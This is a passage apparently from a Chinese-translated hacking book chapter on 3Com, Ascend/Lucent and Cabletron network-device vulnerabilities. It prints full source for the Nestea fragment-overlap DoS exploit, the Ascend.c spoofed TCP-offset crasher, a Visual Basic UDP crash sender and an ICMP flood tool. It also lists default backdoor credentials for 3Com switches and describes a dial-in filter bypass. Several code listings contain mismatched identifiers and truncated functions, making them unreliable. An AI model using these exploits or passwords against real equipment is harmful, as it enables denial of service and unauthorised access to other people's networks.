- **漏洞：** HiPer ARC 运行的系统版本为 4.1.11/x。
- **突破点：** 3Com HiPer ARC 运行的系统版本 4.1.11 容易受到某些导致卡简单崩溃和重启的 DoS 攻击。黑客注：3Com/USR 的 IP 堆栈历史上对特定类型的 DoS 攻击（如 *Nesteac* 变体，最初由 humble 为 rhino9 编写）抵抗力不强，如下所示：

### Nesteac

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <netdb.h>
#include <netinet/in.h>
#include <netinet/udp.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <sys/time.h>
#include <sys/socket.h>

/* bsd usage works now, the original nesteac was broken, because some * braindead linux-c0d3r was too stupid to use sendto() correctly */

#ifndef STRANGE_BSD_BYTE_ORDERING_THING
#endif /* STRANGE_BSD_BYTE_ORDERING_THING */

#define IP_MF 0x2000 /* More IP fragment en route */
#define IPH 0x14 /* IP header size */
#define UDPH 0x8 /* UDP header size */
#define MAGICC2 108
#define PADDING 256 /* datagram frame padding for first packet */
#define COUNT 500 /* we are overwriting a small number of bytes we
shouldnt have access to in the kernel.
 to be safe, we should hit them till they die :
> */

void usage(u_char *);
u_long name_resolve(u_char *);
u_short in_cksum(u_short *, int);
void send_frags(int, u_long, u_long, u_short, u_short);

int main(int argc, char **argv)
{
    int one = 1, count = 0, i, rip_sock;
    u_long src_ip = 0, dst_ip = 0;
    u_short src_port = 0, dst_port = 0;
    struct in_addr addr;

    if ((rip_sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) < 0)
    {
        perror ("raw socket");
        exit(1);
    }
    if (setsockopt(rip_sock, IPPROTO_IP, IP_HDRINCL, (char *)&one, sizeof(one))
        < 0)
    {
        perror ("IP_HDRINCL");
        exit(1);
    }
    if (argc < 3) usage(argv[0]);
    if (!(src_ip = name_resolve(argv[1])) || !(dst_ip = name_resolve(argv[2])))
    {
        fprintf(stderr, "What the hell kind of IP address is that?\n");
        exit(1);
    }

    while ((i = getopt(argc, argv, "s:t:n:")) != EOF)
    {
        switch (i)
        {
        case 's':
            /* source port (should be ephemeral) */
            src_port = (u_short)atoi(optarg);
            break;
        case 't':
            /* dest port (DNS, anyone?) */
            dst_port = (u_short)atoi(optarg);
            break;
        case 'n':
            /* number to send */
            count = atoi(optarg);
            break;
        default :
            usage(argv[0]);
            break;    /* NOTREACHED */
        }
    }

    srandom((unsigned)(time((time_t)0)));
    if (!src_port) src_port = (random() % 0xffff);
    if (!dst_port) dst_port = (random() % 0xffff);
    if (!count)  count  = COUNT;

    fprintf(stderr, "Nestea by humble\nCode ripped from teardrop by route / daemon9\n");
    fprintf(stderr, "Death on flaxen wings (yet again):\n");
    addr.s_addr = src_ip;
    fprintf(stderr, "From: %15s.%5d\n", inet_ntoa(addr), src_port);
    addr.s_addr = dst_ip;
    fprintf(stderr, " To: %15s.%5d\n", inet_ntoa(addr), dst_port);
    fprintf(stderr, " Amt: %5d\n", count);
    fprintf(stderr, "[ ");

    for (i = 0; i < count; i++)
    {
        send_frags(rip_sock, src_ip, dst_ip, src_port, dst_port);
        fprintf(stderr, "b00m ");
        usleep(500);
    }
    fprintf(stderr, "]\n");
    return (0);
}

void send_frags(int sock, u_long src_ip, u_long dst_ip, u_short src_port, u_short dst_port)
{
    int i;
    u_char *packet = NULL, *p_ptr = NULL;    /* packet pointers */
    u_char byte;            /* a byte */
    struct sockaddr_in sin;        /* socket protocol structure */

    sin.sin_family         = AF_INET;
    sin.sin_port           = src_port;
    sin.sin_addr.s_addr   = dst_ip;

    packet = (u_char *)malloc(IPH + UDPH + PADDING+40);
    p_ptr = packet;
    bzero((u_char *)p_ptr, IPH + UDPH + PADDING);
```


```c
byte = 0x45; /* IP 版本和头部长度 */
memcpy(p_ptr, &byte, sizeof(u_char));
p_ptr += 2; /* IP 服务类型 (跳过) */
*(u_short *)p_ptr = FIX(IPH + UDPH + 10); /* 总长度 */
p_ptr += 2;
*(u_short *)p_ptr = htons(242); /* IP 标识 */

p_ptr += 2;
*(u_short *)p_ptr |= FIX(IP_MF); /* IP 分片标志和偏移量 */

p_ptr += 2;
*(u_short *)p_ptr = 0x40; /* IP TTL */
byte = IPPROTO_UDP;
memcpy(p_ptr + 1, &byte, sizeof(u_char));
p_ptr += 4; /* IP 校验和由内核填充 */
*(u_long *)p_ptr = src_ip; /* IP 源地址 */
p_ptr += 4;
*(u_long *)p_ptr = dst_ip; /* IP 目的地址 */

p_ptr += 4;
*(u_short *)p_ptr = htons(src_ptr); /* UDP 源端口 */
p_ptr += 2;
*(u_short *)p_ptr = htons(dst_ptr); /* UDP 目的端口 */
p_ptr += 2;
*(u_short *)p_ptr = htons(8 + 10); /* UDP 总长度 */

if (sendto(sock, packet, IPH + UDPH + 10, 0, (struct sockaddr *)&sin,
sizeof(struct sockaddr)) == -1)
{
perror("\nsendto");
free(packet);
exit(1);
}

p_ptr = packet;
bzero((u_char *)p_ptr, IPH + UDPH + PADDING);

byte = 0x45; /* IP 版本和头部长度 */
memcpy(p_ptr, &byte, sizeof(u_char));
p_ptr += 2; /* IP 服务类型 (跳过) */
*(u_short *)p_ptr = FIX(IPH + UDPH + MAGIC2); /* 总长度 */
p_ptr += 2;
*(u_short *)p_ptr = htons(242); /* IP 标识 */

p_ptr += 2;
*(u_short *)p_ptr = FIX(6);       /* IP 分片标志和偏移量 */

p_ptr += 2;
*(u_short *)p_ptr = 0x40;        /* IP TTL */
byte = IPPROTO_UDP;
memcpy(p_ptr + 1, &byte, sizeof(u_char));
p_ptr += 4;                       /* IP 校验和由内核填充 */
*(u_long *)p_ptr = src_ip;      /* IP 源地址 */
p_ptr += 4;
*(u_long *)p_ptr = dst_ip;      /* IP 目的地址 */
p_ptr += 4;
*(u_short *)p_ptr = htons(src_ptr);      /* UDP 源端口 */

p_ptr += 2;
*(u_short *)p_ptr = htons(dst_ptr);   /* UDP 目的端口 */
p_ptr += 2;
*(u_short *)p_ptr = htons(8 + MAGIC2);  /* UDP 总长度 */

if (sendto(sock, packet, IPH + UDPH + MAGIC2, 0, (struct sockaddr *)&sin,
              sizeof(struct sockaddr)) == -1)
{
    perror("\nsendto");
    free(packet);
    exit(1);
}

p_ptr = packet;
bzero((u_char *)p_ptr, IPH + UDPH + PADDING+40);
byte = 0x4F;                       /* IP 版本和头部长度 */
memcpy(p_ptr, &byte, sizeof(u_char));
p_ptr += 2;                       /* IP 服务类型 (跳过) */
*(u_short *)p_ptr = FIX(IPH + UDPH + PADDING+40); /* 总长度 */
p_ptr += 2;
*(u_short *)p_ptr = htons(242);  /* IP 标识 */
p_ptr += 2;
*(u_short *)p_ptr = 0 | FIX(IP_MF); /* IP 分片标志和偏移量 */
p_ptr += 2;
*(u_short *)p_ptr = 0x40;               /* IP TTL */
byte = IPPROTO_UDP;
memcpy(p_ptr + 1, &byte, sizeof(u_char));
p_ptr += 4;                       /* IP 校验和由内核填充 */
*(u_long *)p_ptr = src_ip;               /* IP 源地址 */
    p_ptr += 4;
*(u_long *)p_ptr = dst_ip;               /* IP 目的地址 */

    p_ptr += 44;
    *(u_short *)p_ptr = htons(src_ptr);    /* UDP 源端口 */
    p_ptr += 2;
*(u_short *)p_ptr = htons(dst_ptr);        /* UDP 目的端口 */

    p_ptr += 2;
*(u_short *)p_ptr = htons(8 + PADDING);    /* UDP 总长度 */


    for(i=0;i<PADDING;i++)
    {
        p_ptr[i++]=random()%255;
    }

    if (sendto(sock, packet, IPH + UDPH + PADDING+40, 0, (struct sockaddr *)&sin, sizeof(struct sockaddr)) == -1)
    {
        perror("\nsendto");
        free(packet);
        exit(1);
    }
    free(packet);
}

u_long name_resolve(u_char *host_name)
{
    struct in_addr addr;
    struct hostent *host_ent;

    if ((addr.s_addr = inet_addr(host_name)) == -1)
    {
        if (! (host_ent = gethostbyname(host_name))) return (0);
        bcopy(host_ent->h_addr, (char *)&addr.s_addr, host_ent->h_length);
    }
    return (addr.s_addr);
}

void usage(u_char *name)
{
    fprintf(stderr,
            "\n%s src_ip dst_ip [ -s src_ptr ] [ -t dst_ptr ] [ -n how_many ]\n", name);
    exit(0);
}
```

## HiPer ARC 卡登录

**概要：** HiPer ARC 卡的默认 adm 账户存在潜在弱点。

**攻击状态：** 未认证访问。

**易受攻击性：** HiPer ARC 卡 v4.1.x 版本。

**入侵详情：** 3Com 为 HiPer ARC 卡开发的软件（v4.1.x 版本）构成了潜在的安全威胁。上传软件后，会出现一个名为 adm 的登录账户，且没有密码。当然，安全策略要求从配置中删除默认的 adm 登录。然而，一旦设备完成配置，必须保存设置并重启设备。此时，adm 登录（无需密码）仍然保持活动状态，且无法删除。

## 过滤

**概要：** 带有拨入连接的过滤功能无效。基本上，用户可以拨入，收到“host”提示符，然后输入任何主机名，而无需经过实际的认证过程。因此，系统日志报告会显示连接被拒绝。

**攻击状态：** 未认证访问。

**易受攻击性：** 配备 Total Control NETServer Card V.34/ISDN with Frame Relay V3.7.24 和 AIX 3.2 的系统。

**入侵详情：** Total Control 机箱在许多终端服务器中很常见，因此当某人拨入 ISP 时，他/她可能会拨入这些服务器之一。该漏洞涉及响应“host:”或类似提示符的系统。当端口设置为“set host prompt”时，访问过滤器通常会被忽略：

```
> sho filter allowed_hosts
1 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.161/32 tcp dst eq 539
2 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.165/32 tcp dst eq 23
3 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.106/32 tcp dst eq 23
4 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.168/32 tcp dst eq 540
5 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.168/32 tcp dst eq 23
6 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.109/32 tcp dst eq 3030
7 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.109/32 tcp dst eq 3031
8 permit XXX.XXX.XXX.12/24 XXX.XXX.XXX.109/32 tcp dst eq 513
9 deny  0.0.0.0/0 0.0.0.0/0 ip
```

攻击者可以在“host:”提示符下两次输入主机名，然后被引导至目标主机的 telnet 会话。此时，黑客获得了未经授权的访问权限，例如：

```
> sho ses
S19  hacker.target.system. Login  In  ESTABLISHED  4:30
```

尽管已获取访问权限，syslogs 通常会在日志中报告如下内容：

```
XXXXXX remote_access: Packet filter does not exist. User hacker... access denied.
```

## 主密钥密码

**概要：** 某些 3Com 交换机因互联网上分发的一系列“主密钥”密码而为黑客打开了大门。

**攻击状态：** 对配置的未授权访问。

**易受攻击性：** CoreBuilder 2500、3500、6000 和 7000，或 SuperStack II 交换机 2200、2700、3500 和 9300 均受影响。

**入侵详情：** 据 3Com 称，主密钥密码是被一名互联网用户“偶然发现”，随后由地下黑客发布的。显然，3Com 工程师将这些密码保留用于紧急情况，如密码丢失。

- CoreBuilder 6000/2500             用户名: debug 密码: synnet
- CoreBuilder 7000                   用户名: tech 密码: tech
- SuperStack II 交换机 2200          用户名: debug 密码: synnet
- SuperStack II 交换机 2700          用户名: tech 密码: tech

CoreBuilder 3500 以及 SuperStack II 交换机 3900 和 9300 也具有这些机制，但在修改密码时，特殊登录密码会被更改为与管理员级密码匹配。

## NetServer 8/16 DoS 攻击

**概要：** NetServer 8/16 易受 nestea DoS 攻击。

**攻击状态：** 系统崩溃。

**易受攻击性：** NetServer 8/16 V.34，操作系统版本 2.0.14。

**入侵详情：** NetServer 8/16 也易受之前展示的 Nestea.c DoS 攻击的影响。

## PalmPilot Pro DoS 攻击

**概要：** PalmPilot 易受 nestea DoS 攻击。

**攻击状态：** 系统崩溃。

**易受攻击性：** PalmPilot Pro，操作系统版本 2.0.x。

**入侵详情：** 运行系统版本 2.0.x 的 3Com PalmPilot Pro 易受 nestea.c DoS 攻击，导致系统崩溃并需要重启。


> **本章的源代码可以在随本书附带的 CD 中找到。**

## Ascend/Lucent

Ascend（www.ascend.com）远程访问产品将开放的广域网到局域网（WAN-to-LAN）访问和安全功能打包在单一单元中。这些产品被视为适合那些需要维护紧密保护的内网进行内部数据事务，同时允许外部自由访问 Web 服务器、FTP 站点等场景的组织。这些产品通常面向中小型企业的网关以及企业分支到总部的接入入口点。由于合并


## 朗讯科技

朗讯科技（www.lucent.com）与 Ascend 通信相结合，其数据网络产品线更加广泛、强大且可靠。

## 安全漏洞

### 畸形 UDP 攻击

**概述**：Ascend 路由器互联网络操作系统存在缺陷，某些畸形 UDP 数据包可能导致机器崩溃。


**图 9.1** 使用 TigerBreach Penetator 成功突破。

- **攻击状态**：系统崩溃。
- **易受攻击目标**：Ascend Pipeline 和 MAX 产品。
- **突破原理**：虽然 Ascend 的配置可以通过图形界面进行修改，但该配置工具使用特殊的 UDP 数据包来定位网络中的 Ascend 路由器。基本上，Ascend 路由器监听广播消息（发送到“丢弃”端口 9 的独特 UDP 数据包），并回应包含路由器名称的另一个 UDP 数据包。通过向 Ascend 路由器的丢弃端口发送特别畸形的 UDP 数据包，攻击者可以导致路由器崩溃。使用 TigerBreach Penetator 进行安全分析时，可以验证连接性以测试此缺陷（参见图 9.1）。

这里展示了一个可以修改用于 UDP 数据包传输的程序示例（图 9.2 显示了相应的表单）。

**Crash.bas**

```vb
Option Explicit

Private Sub Crash()
	Socket1.RemoteHost = txtIP.Text
	Socket1.SendData txtName.Text + "Crash!!!"
End Sub
```


**图 9.2** Crash.bas 的 Visual Basic 表单。

### Pipeline 密码拥塞

**概述：** 对远程 telnet 会话进行验证可能会使 Ascend 路由器会话达到限制，并导致系统拒绝进一步尝试。

- **攻击状态：** 严重拥塞。
- **易受攻击目标：** Ascend Pipeline 产品。
- **突破原理：** 持续的远程 telnet 身份验证尝试会使系统会话限制达到最大值，导致路由器拒绝合法会话。

### MAX 攻击

**概述：** 攻击者能够通过 telnet 连接到端口 150，同时发送非零长度 TCP 偏移数据包，从而远程重启 Ascend MAX 设备，如下文所示的 *TCPOffset.c* 工具。

- **攻击状态：** 系统重启。
- **易受攻击目标：** Ascend MAX 5x 产品。

### TCP 偏移骚扰

**概述：** 黑客可以通过发送具有非零长度 TCP 偏移的数据包来使 Ascend 终端服务器崩溃。

- **攻击状态：** 系统崩溃。
- **易受攻击目标：** Ascend 终端服务器。

### 突破原理：Ascend.c

突破原理：Ascend.c（最初由 The Posse 编写）。

#### Ascend.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/in_sysm.h>
#include <netinet/ip.h>
#include <netinet/ip_tcp.h>
#include <netinet/protocols.h>
#include <netdb.h>

unsigned short compute_tcp_checksum(struct tcphdr *th, int len,
                                    unsigned long saddr, unsigned long daddr)
{
    unsigned long sum;
    __asm__("addl %%ecx, %%ebx
            adcl %%edx, %%ebx
            adcl $0, %%ebx
"            : "=b" (sum)
            : "0" (daddr), "c" (saddr), "d" ((ntohs(len) << 16) + IPPROTO_TCP*256)
            : "bx", "cx", "dx");
    __asm__("movl %%ecx, %%edx
            cltd
            cmpl $32, %%ecx
            jb 2f
            shrl $5, %%ecx
            cltd
1:      lodsl
            adcl %%eax, %%ebx
            lodsl
            adcl %%eax, %%ebx
            lodsl
            adcl %%eax, %%ebx
            lodsl
            adcl %%eax, %%ebx
            lodsl
            adcl %%eax, %%ebx
            lodsl
            adcl %%eax, %%ebx
            lodsl
            adcl %%eax, %%ebx
            loop lb
            adcl $0, %ebx
            movl %edx, %ecx
2:
            andl $28, %ecx
            je 4f
            shrl $2, %ecx
            cics
3:
            lodsl
            adcl %eax, %ebx
            loop 3b
            adcl $0, %ebx
4:
            movl $0, %eax
            testw $2, %dx
            je 5f
            lodsw
            addl %eax, %ebx
            adcl $0, %ebx
            movw $0, %ax
5:
            test $1, %edx
            je 6f
            lodsb
            addl %eax, %ebx
            adcl $0, %ebx
6:
            movl %ebx, %eax
            shrl $16, %eax
            addw %ax, %bx
            adcw $0, %bx
" : "b" (sum)
  : "0"(sum), "c"(len), "S"(th)
  : "ax", "bx", "cx", "dx", "si" );
    return((~sum) & 0xffff);
}

#define psize ( sizeof(struct iphdr) + sizeof(struct tcphdr) )
#define tcp_offset ( sizeof(struct iphdr) )
#define err(x) { fprintf(stderr, x); exit(1); }
#define errors(x, y) { fprintf(stderr, x, y); exit(1); }

struct iphdr temp_ip;
int temp_socket = 0;

u_short ip_checksum (u_short * buf, int nwords)
{
    unsigned long sum;
    for (sum = 0; nwords > 0; nwords--)
        sum += *buf++;
    sum = (sum >> 16) + (sum & 0xffff);
    sum += (sum >> 16);
    return ~sum;
}

void fixhost (struct sockaddr_in *addr, char *hostname)
{
    struct sockaddr_in *address;
    struct hostent *host;
    address = (struct sockaddr_in *) addr;
    (void) bzero ((char *) address, sizeof (struct sockaddr_in));
    address->sin_family = AF_INET;
    address->sin_addr.s_addr = inet_addr (hostname);
    if ((int) address->sin_addr.s_addr == -1)
      {
        host = gethostbyname (hostname);
        if (host)
          {
            bcopy (host->h_addr, (char *) &address->sin_addr,
                   host->h_length);
          }
        else
          {
            puts ("Couldn't resolve address!!");
            exit (-1);
          }
      }
}

unsigned int lookup (host)
     char *host;
{
    unsigned int addr;
    struct hostent *he;
    addr = inet_addr (host);
    if (addr == -1)
      {
        he = gethostbyname (host);
        if ((he == NULL) || (he->h_name == NULL) || (he->h_addr_list == NULL))
          return 0;
        bcopy (*(he->h_addr_list), &(addr), sizeof (he->h_addr_list));
      }
    return (addr);
}

unsigned short lookup_port (p)
     char *p;
{
    int i;
    struct servent *s;
    if ((i = atoi (p)) == 0)
    {
        if ((s = getservbyname (p, "tcp")) == NULL)
            errror ("Unknown port %s\n", p);
        i = ntohs (s->s_port);
    }
    return ((unsigned short) i);
}

void spoof_packet (struct sockaddr_in local, int fromport,
        struct sockaddr_in remote, int toport, ulong sequence,
        int sock, u_char theflag, ulong acknum,
        char *packdata, int datalen)
{
    char *packet;
    int tempint;
    if (datalen > 0)
        datalen++;
    packet = (char *) malloc (psize + datalen);
    tempint = toport;
    toport = fromport;
    fromport = tempint;
    {
        struct tcphdr *fake_tcp;
        fake_tcp = (struct tcphdr *) (packet + tcp_offset);
        fake_tcp->th_dport = htons (fromport);
        fake_tcp->th_sport = htons (toport);
        fake_tcp->th_flags = theflag;
        fake_tcp->th_seq = random ();
        fake_tcp->th_ack = random ();
        /* this is what really matters, however we randomize everything
           else
           to prevent simple rule based filters */
        fake_tcp->th_off = random ();
        fake_tcp->th_win = random ();
        fake_tcp->th_urp = random ();
    }
    if (datalen > 0)
    {
        char *tempbuf;
        tempbuf = (char *) (packet + tcp_offset + sizeof (struct tcphdr));
        for (tempint = 0; tempint < datalen - 1; tempint++)
        {
            *tempbuf = *packdata;
            *tempbuf++;
            *packdata++;
        }
        *tempbuf = '\r';
    }
    {
        struct iphdr *real_ip;
        real_ip = (struct iphdr *) packet;
        real_ip->version = 4;
        real_ip->ihl = 5;
        real_ip->tot_len = htons (pssize + datalen);
        real_ip->tos = 0;
        real_ip->ttl = 64;
        real_ip->protocol = 6;
        real_ip->check = 0;
        real_ip->id = 10786;
        real_ip->frag_off = 0;
        bcopy ((char *) &local.sin_addr, &real_ip->saddr, sizeof (real_ip->saddr));
        bcopy ((char *) &remote.sin_addr, &real_ip->daddr, sizeof (real_ip->daddr));
        temp_ip.saddr = htonl (ntohl (real_ip->daddr));
        real_ip->daddr = htonl (ntohl (real_ip->saddr));
        real_ip->saddr = temp_ip.saddr;
        real_ip->check = ip_checksum ((u_short *) packet, sizeof (struct iphdr)) >> 1;
        {
            struct tcphdr *another_tcp;
            another_tcp = (struct tcphdr *) (packet + tcp_offset);
            another_tcp->th_sum = 0;
            another_tcp->th_sum = compute_tcp_checksum (another_tcp, sizeof (struct tcphdr) + datalen, real_ip->saddr, real_ip->daddr);
        }
        {
            int result;
            sock = (int) temp_socket;
            result = sendto (sock, packet, pssize + datalen, 0, (struct sockaddr *) &remote, sizeof (remote));
        }
        free (packet);
    }
}

void main (argc, argv)
int argc;
char **argv;
{
    unsigned int daddr;
    unsigned short dport;
    struct sockaddr_in sin;
    int s, i;
    struct sockaddr_in local, remote;
    u_long start_seq = 4935835 + getpid ();
}
```


## Cabletron/Enterasys

Cabletron/Enterasys（www.enterasys.com）提供的独特产品能够为用户从桌面到数据中心提供高速、高性能的网络接入。作为思科系统（Cisco）显然的良性竞争对手，这一创新产品线以 SmartSwitch 路由器系列领先，该系列正日益广泛地应用于企业骨干网和 WAN 网关。这些产品旨在提供当今企业网络所需的可靠性和可扩展性，并具有四项关键收益：千兆速率下的线路速度路由、对应用程序使用情况的精确控制、简化的管理以及功能完备的安全性。

### 风险

- **CPU 阻塞**

  概要：SmartSwitch 路由器（SSR）产品系列易受 CPU 泛洪攻击。

  攻击状态：通过泛洪造成处理干扰。

  易受攻击的漏洞：SmartSwitch 路由器（SSR）系列。

  入侵描述：黑客只需发送大量数据包（TTL=0），其目标 IP 地址为全零，即可通过简单的进程泛洪 SSR 的 CPU。正如本书前文所述，生存时间（TTL）在 IP 报头中定义为数据包在被丢弃前可以经过的跳数。下面提供了一个可修改的编码示例，展示了这种技术格式，其最初灵感来自安全爱好者兼程序员 Jim Huff，代码及图 9.3 中均有展示。


**图 9.3** Icmpfld.bas 的 Visual Basic 窗体。

### Icmpfld.bas

```vb
Dim iReturn As Long, sLowByte As String, sHighByte As String
Dim sMsg As String, HostLen As Long, Host As String
Dim Hostent As Hostent, PointerToPointer As Long, ListAddress As Long
Dim WSData As WSData, DotA As Long, DotAddr As String, ListAddr As Long
Dim MaxUDP As Long, MaxSockets As Long, i As Integer
Dim description As String, Status As String

Dim bReturn As Boolean, hIP As Long
Dim szBuffer As String
Dim Addr As Long
Dim RCode As String
Dim RespondingHost As String
Dim TraceRT As Boolean
Dim TTL As Integer
Const WS_VERSION_MAJOR = &H101 \ &H100 And &HFF&
Const WS_VERSION_MINOR = &H101 And &HFF&
Const MIN_SOCKETS_REQD = 0

Sub vbIcmpCloseHandle()
    bReturn = IcmpCloseHandle(hIP)

    If bReturn = False Then
        MsgBox "ICMP Closed with Error", vbOKOnly, "VB4032-ICMPEcho"
    End If

End Sub

Sub GetRCode()
    If pIPe.Status = 0 Then RCode = "Success"
    If pIPe.Status = 11001 Then RCode = "Buffer too Small"
    If pIPe.Status = 11002 Then RCode = "Dest Network Not Reachable"
    If pIPe.Status = 11003 Then RCode = "Dest Host Not Reachable"
    If pIPe.Status = 11004 Then RCode = "Dest Protocol Not Reachable"
    If pIPe.Status = 11005 Then RCode = "Dest Port Not Reachable"
    If pIPe.Status = 11006 Then RCode = "No Resources Available"
    If pIPe.Status = 11007 Then RCode = "Request Option"
    If pIPe.Status = 11008 Then RCode = "Hardware Error"
    If pIPe.Status = 11009 Then RCode = "Packet too Big"
    If pIPe.Status = 11010 Then RCode = "Request Timed Out"
    If pIPe.Status = 11011 Then RCode = "Bad Request"
    If pIPe.Status = 11012 Then RCode = "Bad Route"
    If pIPe.Status = 11013 Then RCode = "TTL Expired in Transit"
    If pIPe.Status = 11014 Then RCode = "TTL Expired Reassembly"
    If pIPe.Status = 11015 Then RCode = "Parameter Problem"
    If pIPe.Status = 11016 Then RCode = "Source Quench"
    If pIPe.Status = 11017 Then RCode = "Option too Big"
    If pIPe.Status = 11018 Then RCode = "Bad Destination"
    If pIPe.Status = 11019 Then RCode = "Address Deleted"
    If pIPe.Status = 11020 Then RCode = "Spec MTU Change"
    If pIPe.Status = 11021 Then RCode = "MTU Change"
    If pIPe.Status = 11022 Then RCode = "Unload"
    If pIPe.Status = 11050 Then RCode = "General Failure"
    RCode = RCode + " (" + CStr(pIPe.Status) + ")"
    DoEvents
    If TraceRT = False Then
        If pIPe.Status = 0 Then
            Text3.Text = Text3.Text + "  Reply from " + RespondingHost + ": Bytes = " + Trim$(CStr(pIPe.DataSize)) + " RTT = " + Trim$(CStr(pIPe.RoundTripTime)) + "ms TTL = " + Trim$(CStr(pIPe.Options.TTL)) + Chr$(13) + Chr$(10)
        Else
            Text3.Text = Text3.Text + "  Reply from " + RespondingHost + ": " + RCode + Chr$(13) + Chr$(10)
        End If
    Else
        If TTL - 1 < 10 Then Text3.Text = Text3.Text + "  Hop # 0" + CStr(TTL - 1) Else Text3.Text = Text3.Text + "  Hop # " + CStr(TTL - 1)
        Text3.Text = Text3.Text + " " + RespondingHost + Chr$(13) + Chr$(10)
    End If
End Sub

Function HiByte(ByVal wParam As Integer)
    HiByte = wParam \ &H100 And &HFF$
End Function

Function LoByte(ByVal wParam As Integer)
    LoByte = wParam And &HFF&
End Function

Sub vbGetHostByName()
    Dim szString As String
    Host = Trim$(Text1.Text)             ' Set Variable Host to Value in Text1.text
    szString = String(64, &H0)
    Host = Host + Right$(szString, 64 - Len(Host))
    If gethostbyname(Host) = SOCKET_ERROR Then    ' If Winsock32 error, then tell me about it
        sMsg = "Winsock Error" & Str$(WSAGetLastError())
        'MsgBox sMsg, vbOKOnly, "VB4032-ICMPEcho"
    Else
        PointerToPointer = gethostbyname(Host)  ' Get the pointer to the address of the winsock hostent structure
        CopyMemory Hostent.h_name, ByVal PointerToPointer, Len(Hostent)              ' Copy Winsock structure to the Visual Basic structure
        ListAddress = Hostent.h_addr_list           ' Get the ListAddress of the Address List
        CopyMemory ListAddr, ByVal ListAddress, 4  ' Copy Winsock structure to the Visual Basic structure
        CopyMemory IPlong, ByVal ListAddr, 4        ' Get the first list entry from the Address List
        CopyMemory Addr, ByVal ListAddr, 4
        Label3.Caption = Trim$(CStr(Asc(IPlong.Byte4)) + "." + CStr(Asc(IPlong.Byte3))) + "." + CStr(Asc(IPlong.Byte2)) + "." + CStr(Asc(IPlong.Byte1)))
    End If
End Sub

Sub vbGetHostName()
    Host = String(64, &H0)                 ' Set Host value to a bunch of spaces
    If gethostname(Host, HostLen) = SOCKET_ERROR Then   ' This routine is where we get the host's name
        sMsg = "WSock32 Error" & Str$(WSAGetLastError())  ' If WSOCK32 error, then tell me about it
        'MsgBox sMsg, vbOKOnly, "VB4032-ICMPEcho"
    Else
        Host = Left$(Trim$(Host), Len(Trim$(Host)) - 1) ' Trim up the results
        Text1.Text = Host ' Display the host's name in labell1
    End If
End Sub

Sub vbIcmpCreateFile()
    hIP = IcmpCreateFile()
    If hIP = 0 Then
        MsgBox "Unable to Create File Handle", vbOKOnly, "VBPing32"
    End If
End Sub

Sub vbIcmpSendEcho()
    Dim NbrOfFPKts As Integer
    szBuffer = "abcdefg hij klmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz klmn op qrstu v"
    If IsNumeric(Text5.Text) Then
        If Val(Text5.Text) < 32 Then Text5.Text = "32"
        If Val(Text5.Text) > 128 Then Text5.Text = "128"
    Else
        Text5.Text = "32"
    End If
    szBuffer = Left$(szBuffer, Val(Text5.Text))
    If IsNumeric(Text4.Text) Then
        If Val(Text4.Text) < 1 Then Text4.Text = "1"
    Else
        Text4.Text = "1"
    End If
    If TraceRT = True Then Text4.Text = "1"
    For NbrOfPkts = 1 To Trim$(Text4.Text)
        DoEvents
        bReturn = IcmpSendEcho(hIP, Addr, szBuffer, Len(szBuffer), pIPo, pIPe, Len(pIPe) + 8, 2700)
        If bReturn Then
            RespondingHost = CStr(pIPe.Address(0)) + "." + CStr(pIPe.Address(1)) + "." + CStr(pIPe.Address(2)) + "." + CStr(pIPe.Address(3))
            GetRCode
        Else ' I hate it when this happens. If I get an ICMP timeout during a TRACERT, try again.
            If TraceRT Then
                TTL = TTL - 1
            Else ' Don't worry about trying again on a PING, just
```


## ICMP 回显实用程序代码

```vb
timeout
Text3.Text = Text3.Text + "ICMP Request Timeout" + Chr$(13) + Chr$(10)
End If
Next NbOfPkts
End Sub

Sub vbWSACleanup()
' 子程序，执行 WSACleanup
iReturn = WSACleanup()
If iReturn <> 0 Then ' 如果出现 WSock32 错误，则报告错误。
    sMsg = "WSock32 错误 - 在 Cleanup 中发生 " & Trim$(Str$(iReturn))
    MsgBox sMsg, vbOKOnly, "VB4032-ICMPEcho"
    End
End If
End Sub

Sub vbWSAStartup()
iReturn = WSAStartup(&H101, WSAData)
If iReturn <> 0 Then ' 如果出现 WSock32 错误，则报告错误
    MsgBox "WSock32.dll 无响应！", vbOKOnly, "VB4032-ICMPEcho"
End If
If LoByte(WSAData.wVersion) < WS_VERSION_MAJOR Or (LoByte(WSAData.wVersion) = WS_VERSION_MAJOR And HiByte(WSAData.wVersion) < WS_VERSION_MINOR) Then
    sHighByte = Trim$(Str$(HiByte(WSAData.wVersion)))
    sLowByte = Trim$(Str$(LoByte(WSAData.wVersion)))
    sMsg = "WinSock 版本 " & sLowByte & "." & sHighByte
    sMsg = sMsg & " 不受支持 "
    MsgBox sMsg, vbOKOnly, "VB4032-ICMPEcho"
    End
End If
If WSAData.iMaxSockets < MIN_SOCKETS_REQD Then
    sMsg = "此应用程序至少需要 "
    sMsg = sMsg & Trim$(Str$(MIN_SOCKETS_REQD)) & " 个受支持的套接字。"
    MsgBox sMsg, vbOKOnly, "VB4032-ICMPEcho"
    End
End If
MaxSockets = WSAData.iMaxSockets
If MaxSockets < 0 Then
    MaxSockets = 65536 + MaxSockets
End If
MaxUDP = WSAData.iMaxUdpDg
If MaxUDP < 0 Then
    MaxUDP = 65536 + MaxUDP
End If
description = ""
For i = 0 To WSATYPEDESC_LEN
    If WSADATA.szDescription(i) = 0 Then Exit For
    description = description + Chr$(WSADATA.szDescription(i))
Next i
Status = ""
For i = 0 To WSATYPESTATUS_LEN
    If WSADATA.szSystemStatus(i) = 0 Then Exit For
    Status = Status + Chr$(WSADATA.szSystemStatus(i))
Next i
End Sub

Private Sub Command1_Click()
    Text3.Text = ""
    vbWSAStartup                ' 初始化 Winsock
    If Len(Text1.Text) = 0 Then
        vbGetHostName
    End If
    If Text1.Text = "" Then
